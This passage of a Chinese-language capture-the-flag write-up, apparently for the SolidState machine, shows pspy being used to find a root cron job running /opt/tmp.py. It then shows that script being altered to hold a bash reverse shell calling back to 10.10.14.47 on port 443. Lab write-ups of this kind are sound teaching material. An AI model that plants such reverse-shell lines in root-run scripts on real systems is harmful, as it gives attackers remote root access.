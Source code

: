     root@kali:/opt/pspy# ls
    pspy32  pspy32s  pspy64  pspy64s
    root@kali:/opt/pspy# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.51 - - [29/Apr/2020 22:37:02] "GET /pspy32 HTTP/1.1" 200 -
    

现在并运行：`chmod`

    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./pspy32
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
    
    
         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                       ░           ░ ░
                                   ░ ░     
    Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
    Draining file system events due to startup...
    done
    2020/04/29 22:39:40 CMD: UID=0    PID=997    | /usr/sbin/cups-browsed
    ...[snip]...
    

每三分钟我看到：

    2020/04/29 22:42:01 CMD: UID=0    PID=1104   | /usr/sbin/CRON -f 
    2020/04/29 22:42:01 CMD: UID=0    PID=1105   | /usr/sbin/CRON -f 
    2020/04/29 22:42:01 CMD: UID=0    PID=1106   | /bin/sh -c python /opt/tmp.py 
    2020/04/29 22:42:02 CMD: UID=0    PID=1107   | python /opt/tmp.py 
    2020/04/29 22:42:02 CMD: UID=0    PID=1108   | sh -c rm -r /tmp/*
    2020/04/29 22:45:01 CMD: UID=0    PID=1150   | /usr/sbin/CRON -f 
    2020/04/29 22:45:01 CMD: UID=0    PID=1151   | /usr/sbin/CRON -f 
    2020/04/29 22:45:01 CMD: UID=0    PID=1152   | /bin/sh -c python /opt/tmp.py 
    2020/04/29 22:45:01 CMD: UID=0    PID=1153   | python /opt/tmp.py 
    2020/04/29 22:45:01 CMD: UID=0    PID=1154   | sh -c rm -r /tmp/*  
    

根目录正在运行此文件。

### 利用

我将修改该文件以在其中添加一个反向 shell：

    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
    os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')
    